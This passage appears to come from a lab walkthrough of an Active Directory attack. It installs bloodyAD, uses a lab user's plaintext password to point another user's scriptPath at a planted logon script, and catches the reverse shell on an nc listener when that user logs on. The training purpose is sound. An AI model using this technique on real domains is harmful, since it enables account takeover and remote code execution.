 ```shell
/usr/bin/pip install bloodyAD

Collecting bloodyAD
  Downloading bloodyad-1.1.1-py3-none-any.whl (191 kB)
     |████████████████████████████████| 191 kB 16.1 MB/s
Requirement already satisfied: pyasn1>=0.4.8 in /usr/lib/python3/dist-packages (from bloodyAD) (0.4.8)
Collecting ldap3>=2.9.1
  Downloading ldap3-2.9.1-py2.py3-none-any.whl (432 kB)
     |████████████████████████████████| 432 kB 44.4 MB/s
<SNIP>

```

##### Updating Eric's scriptPath

Then, we will use the `set object` command on `eric`'s `scriptPath`, setting it to point to the payload file we implanted in the "EricsScripts" folder we found on the domain controller:

```shell
bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' set object eric scriptPath -v 'EricsScripts\logonScript.bat'

['EricsScripts\\logonScript.bat']
[+] eric's scriptPath has been updated

```

To ensure that `bloodyAD` updated the attribute accordingly, we will use `get object` (instead of `set object`) and pass `scriptPath` for the `--attr` flag:

```shell
bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' get object eric --attr scriptPath

distinguishedName: CN=eric,CN=Users,DC=inlanefreight,DC=local
scriptPath: EricsScripts\logonScript.bat

```

From `bloodyAD`'s output, we will know it has successfully updated the attribute.

### Step 4

Once the user `eric` logs onto the domain, we will receive the reverse shell:

```shell
nc -nvlp 9001

listening on [any] 9001 ...
connect to [10.129.229.84] from (UNKNOWN) [10.129.229.224] 49732
whoami
inlanefreight\eric

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname
